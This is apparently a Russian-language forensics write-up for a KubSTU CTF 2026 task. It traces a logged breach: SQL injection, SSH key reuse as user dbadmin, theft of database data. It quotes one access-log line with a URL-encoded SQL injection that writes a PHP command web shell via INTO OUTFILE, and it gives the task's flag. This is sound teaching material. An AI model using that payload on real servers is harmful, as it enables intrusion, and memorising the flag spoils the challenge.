

# [forensics] Demo

> **Категория:** `forensics`  
> **CTF:** KubSTU CTF 2026 Spring

---

  В ходе аудита безопасности были обнаружены подозрительные действия на веб-сервере компании. Предполагается, что злоумышленник смог проникнуть в сеть, переместиться на сервер базы данных и похитить конфиденциальную информацию. 

Формат флага: KubSTU{…}.

 Укажите, с помощью какой уязвимости был получен первоначальный доступ и что он загрузил?
От имени какого пользователя далее действовал злоумышленник?
Что скопировал?
Пример: KubSTU{XSS,p0wny.php,Administrator,data.txt}  

[Demo.rar](./files/Demo.rar)

Решение:

  При анализе access.log Apache на веб-сервере (файл /home/ubuntu/Victim-Web/var/log/apache2/access.log) вы обнаружите сотни записей легитимной активности.  Но, среди них явно вырисовывается данная запись.

```javascript
192.168.1.100 - - [26/Mar/2026:10:16:05 +0300] "GET /index.php?id=1%20UNION%20SELECT%201,%27%3C%3Fphp%20system(%24_GET%5B%22cmd%22%5D)%3B%20%3F%3E%27%20INTO%20OUTFILE%20%27/var/www/html/uploads/shell.php%27 HTTP/1.1" 200 12 "-" "sqlmap/1.6.12 (http://sqlmap.org)"
```

Тут явная SQLi и последующая загрузка shell.php

Далее злоумышленник, вероятно, как то подключился к базе данных, но где он взял доступ?

Проанализировав строение сервиса, можно увидеть кучу интересных данных. IP, ключи и username. Злоумышленником явно был найден путь к приватному SSH-ключу пользователя dbadmin на сервере базы данных: /home/www-data/.ssh_key_key. 

 

  В файле /home/ubuntu/Victim-DB/var/log/auth.log вы найдете успешное SSH-подключение пользователя dbadmin с IP-адреса веб-сервера (192.168.1.10).  

victim-db sshd[5680]: Accepted publickey for dbadmin from 192.168.1.10 port 54323 ssh-rsa SHA256:hK6cLRP4m5w60fHK1BGmWooBTXIWz+vtVHmuH/luoVQ

Далее анализ истории команд пользователя dbadmin показывает, что злоумышленник получил доступ к конфиденциальной БД и скопировал данные   

 

На этом все, составляем флаг

KubSTU{SQLi,shell.php,dbadmin,confidential_data.sql}